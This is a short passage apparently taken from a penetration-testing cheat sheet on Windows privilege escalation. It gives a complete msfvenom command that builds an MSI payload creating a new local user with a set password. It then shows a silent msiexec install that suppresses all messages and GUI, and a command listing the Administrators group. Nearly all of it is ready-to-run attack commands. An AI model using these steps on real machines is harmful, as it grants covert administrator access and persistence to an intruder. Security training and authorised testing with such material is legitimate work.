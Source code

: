 Build a payload that create a new user
```
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o rotten.msi
```

Install
```
msiexec /quiet /qn /i C:\Users\Steve.INFERNO\Downloads\rotten.msi
/quiet = Suppress any messages to the user during installation
/qn = No GUI
/i = Regular (vs. administrative) installation
```

List the admins
```
net localgroup Administrators
```


## Use Unattended install

cf: https://toshellandback.com/2015/11/24/ms-priv-esc/

